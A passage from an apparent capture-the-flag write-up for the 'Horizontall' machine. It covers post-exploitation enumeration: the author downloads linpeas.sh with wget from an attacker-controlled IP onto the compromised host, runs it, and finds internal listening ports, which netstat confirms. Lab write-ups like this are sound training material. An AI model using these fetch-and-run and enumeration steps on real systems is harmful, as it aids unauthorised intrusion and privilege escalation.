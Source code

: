```text
strapi@horizontall:/dev/shm$ wget http://10.10.14.214/linpeas.sh
--2021-09-30 16:23:47--  http://10.10.14.214/linpeas.sh
Connecting to 10.10.14.214:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 473371 (462K) [text/x-sh]
Saving to: ‘linpeas.sh’
linpeas.sh.1        100%[===================>] 462.28K  2.05MB/s    in 0.2s    
2021-09-30 16:23:47 (2.05 MB/s) - ‘linpeas.sh’ saved [473371/473371]

strapi@horizontall:/dev/shm$ chmod +x linpeas.sh       

strapi@horizontall:/dev/shm$ ./linpeas.sh > linpeas.txt
grep: write error: Broken pipe
sh: printf: I/O error
grep: write error: Broken pipe
. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . .
```

It takes a fair while to complete. The output is long, but LinPEAS highlights interesting areas in red so this part stood out:

```text
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:80          0.0.0.0:*       LISTEN  -
tcp        0      0 0.0.0.0:22          0.0.0.0:*       LISTEN  -
tcp        0      0 127.0.0.1:1337      0.0.0.0:*       LISTEN  1830/node /usr/bin/
tcp        0      0 127.0.0.1:8000      0.0.0.0:*       LISTEN  -                   
tcp        0      0 127.0.0.1:3306      0.0.0.0:*       LISTEN  -                   
tcp6       0      0 :::80               :::*            LISTEN  -                   
tcp6       0      0 :::22               :::*            LISTEN  -  
```

I could have found this much quicker by just using netstat:

```text
strapi@horizontall:~/myapi$ netstat -pentul
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address   Foreign Address   State     User   Inode    PID/Program name    
tcp        0      0 0.0.0.0:80      0.0.0.0:*         LISTEN    0      28138    -                   
tcp        0      0 0.0.0.0:22      0.0.0.0:*         LISTEN    0      26624    -                   
tcp        0      0 127.0.0.1:1337  0.0.0.0:*         LISTEN    1001   33273    1830/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000  0.0.0.0:*         LISTEN    0      35123    -                   
tcp        0      0 127.0.0.1:3306  0.0.0.0:*         LISTEN    111    30010    -                   
tcp6       0      0 :::80           :::*              LISTEN    0      28139    -                   
tcp6       0      0 :::22           :::*              LISTEN    0      28683    -     
```
